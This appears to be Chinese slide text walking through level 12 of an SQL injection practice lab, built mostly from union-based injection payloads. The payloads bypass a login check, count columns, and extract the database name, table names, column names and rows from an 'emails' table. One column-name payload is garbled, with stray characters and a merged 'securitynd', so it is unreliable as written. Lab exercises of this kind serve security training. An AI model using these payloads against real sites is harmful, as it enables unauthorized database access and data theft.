

# 第十二关
这题的做法跟之前是一样的，只是闭合的区别
尝试万能密码：")or 1=1 -- qwe

判断字段数：")or 1=1 order by 2 -- qwe

判断显错位：  ")union select 1,2 -- qwe

判断库名：") union select 1,database() -- qwe

判断表名：")union select 1,table_name from
information_schema.tables where table_schema='security' -- qwe

判断列名：") ' aunion select 1,column_name from information_schema.columns where table_schema='securitynd table_name='emails' -- qwe

判断数据：")union select 1,id from emails-- qwe